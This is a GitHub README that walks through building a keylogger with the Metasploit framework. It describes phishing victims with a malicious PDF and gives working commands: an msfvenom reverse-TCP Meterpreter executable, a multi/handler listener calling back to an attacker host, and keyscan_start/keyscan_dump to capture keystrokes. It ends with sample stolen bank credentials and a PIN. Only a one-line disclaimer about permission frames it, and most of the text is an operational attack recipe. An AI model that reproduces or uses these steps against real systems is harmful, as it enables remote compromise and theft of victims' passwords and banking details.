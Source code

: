 # Building a keylogger using Metasploit framework
# $${\color{red}Welcome \space \color{lightblue}To \space \color{orange}Seyigate}$$

Help suport this project!!!

<a href="https://www.buymeacoffee.com/seyiphysica" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

This project should be only take place in a control environment and written permission must be given by the system owner.
Seyigate will not be liable to any destructive occurrence in the network and system infrastructure. 

Check out below to learn how to use the metasploit framework. This project was explained in a simplex term and proof of concept included, however they work great! Feel free to fork and improve it if you want. Be sure to check out the [issues](https://github.com/Seyigate/gate_Keylogger/issues) or [pull requests](https://github.com/Seyigate/gate_Keylogger/pulls) to see if your problem has been fixed, or to help out others.


**Introduction** 

This project created a Keyloggerusing Metasploit framework, uses payload as mode of operation.

A payload is a piece of code that executes when hackers exploit a vulnerability. In other words, it’s an exploit module. It’s usually composed of a few commands that will run on the targeted operating system to steal data and other malicious acts.

Keyloggers are a particularly insidious type of program that can record and steal consecutive keystrokes (and much more) that the user enters on a device. 

The term keylogger, or “keystroke logger,” is self-explanatory: Software that logs what you type on your keyboard. However, keyloggers can also enable you to eavesdrop on you, watch you on your system camera, or listen over your smartphone’s microphone.

It’s not unlikely to find harmful payloads in an email attachment. One of the most effective ways to attack or compromise targeted system infrastructure is via phishing email 

**send emails with an attached .pdf file containing a malicious payload <sup>**keylogger**</sup> that will install a backdoor.**

If the victim downloads the file and double-clicks to open it, which will triggers the code in the background. This allows for serving a shell to access the victim’s computer when the victim sends a TCP connection.

Finally, the threat actor will be able to use payloads installed on the targeted machine to record and steal consecutive keystrokes (and much more) that the user enters on a device such as bank user credentials and lot more. 


# **Content**
* [Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)

* ## gate_keylogger
The aim is to create a payload called Meterpreter using Inbuilt Metasploit-framework see- [metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

Metasploit is handy for generating a reverse shell. The following command generates a reverse TCP shell with the Metasploit framework:
It generate a Windows reverse shell executable that will connect back to us on port 4444.
```
 ┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f exe -o keyshell.exe
```

For the purpose of this project, A listener interactive shell will be initiated, this will allows for serving a shell to access
the targeted machine when the victim sends a TCP connection to record and steal consecutive keystrokes that the user enters on a device.

```
  ┌──(kali㉿kali)-[~]
    └─$ msfconsole
```

In msfconsole, select an exploit module, which is exploit/multi/handler
multi/handler exploit is a stub that handles exploits launched outside of the framework.
it is also a remote exploit module, which can also engage multiple hosts.

```
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) >show info
```
 When using the exploit/multi/handler module, we still need to tell it which payload to expect so we configure it to have the same settings as the executable we generated.
 
```
  msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
  msf6 exploit(multi/handler) > show options
```

 Then configure the parameter appropriately
 
```
 msf6 exploit(multi/handler) > set LHOST 192.168.50.2
 msf6 exploit(multi/handler) > set LPORT 4444
```
Now that we have everything set up and ready to go, 
We run exploit for the multi/handler and execute our generated executable on the victim. 
The multi/handler handles the exploit for us and presents us our shell.

```
    msf6 exploit(handler) > exploit
```
The keyscan_start command starts the keylogging feature on the remote machine.
    Starting the keystroke sniffer ...
```
 meterpreter> keyscan_start    
```
 Starting the keystroke sniffer ...
 The keyscan_dump command is a keylogger feature. You must use the keyscan_start command before using keyscan_dump
   
```
  meterpreter> keyscan_dump
```
 Dumping capture keystrokes ...

 See the capturing kestrokes below

 <SHIFT> www.baclaysbank.co.uk
 
 <SHIFT>username> shift><yinkajah@gmail.com
 
 <CR>password><tap> R2jshb!@(*&^HB
 
 <CR>pin: 126782
 
 snip....

 For more details see *[Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)*


   




  



